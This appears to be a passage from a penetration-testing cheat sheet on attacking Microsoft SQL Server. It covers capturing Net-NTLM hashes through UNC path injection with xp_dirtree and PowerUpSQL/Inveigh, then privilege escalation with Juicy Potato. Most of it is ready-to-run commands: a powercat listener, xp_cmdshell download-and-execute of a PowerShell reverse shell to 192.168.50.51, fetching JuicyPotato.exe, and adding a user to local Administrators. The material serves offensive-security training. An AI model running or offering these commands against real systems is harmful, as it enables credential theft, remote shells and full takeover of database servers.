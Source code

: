 A very well known method to capture Net-NTLM (also known as NTLMv1/v2) hashes. Stored procedures like **xp_dirtree** and **xp_fileexist** can be used to capture Net-NTLM hashes. The captured hashes can be cracked using John-the-Ripper, Hashcat etc

PowerUpSQL automates this impressively (uses Inveigh https://github.com/Kevin-Robertson/Inveigh as a capture server): 

1. Gets SQL Server SPNs 
2. Attempt to log into each
3. Performs UNC path injection
4. Capture password hashes

```powershell
# PowerUpSQL
Invoke-SQLUncPathInjection -Verbose -CaptureIp [ATTACKER_IP] 
```

More in UNC Path Injection cheatsheet: https://gist.github.com/nullbind/7dfca2a6309a4209b5aeef181b676c6e


If the process cannot be automatized, it is necessary first to start on a machine:

```powershell
# Inveigh
Import-Module .\Inveigh.psd1
Invoke-Inveigh -FileOutput Y
```

then on HeidiSQL connect to the database and execute one of the following queries by replacing the correct attacker IP:

```sql
EXEC master..xp_dirtree '\\attackerip\file'
EXEC master..xp_fileexist '\\attackerip\file'
```

### OS Service Account to Local SYSTEM

#### OS Service Account to Local SYSTEM - Rotten Potato

Reference: https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/

#### OS Service Account to Local SYSTEM - Juicy Potato

Reference: https://github.com/ohpe/juicy-potato

```powershell
# Listener
powercat -l -v -p 443

# Get command execution
Get-SQLServerLinkCrawl -Instance INSTANCE -Query "EXEC master..xp_cmdshell 'powershell.exe iex (iwr http://192.168.50.51/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Invoke-PowerShellTcp -Reverse -IPAddress 192.168.50.51 -Port 443'"

# Grab Juicy potato
wget http://192.168.50.51/juicy-potato-master/JuicyPotato/JuicyPotato.exe -UseBasicParsing -Outfile juicypotato.exe

EXEC master..xp_cmdshell 'powershell -ep bypass -c wget ''http://192.168.50.53:8888/JuicyTomato.exe'' -OutFile c:\Users\Public\JuicyTomato.exe'

# own
./juicypotato.exe -t * -p c:\Windows\System32\cmd.exe -a "/c net localgroup Administrators DOMAIN\USER /add" -l 8000
EXEC master..xp_cmdshell 'powershell -ep bypass -c c:\users\public\JuicyTomato.exe -t * -p c:\Windows\System32\cmd.exe -a ''/c net localgroup Administrators usfun\pastudent53 /add'' -l 8000'
```

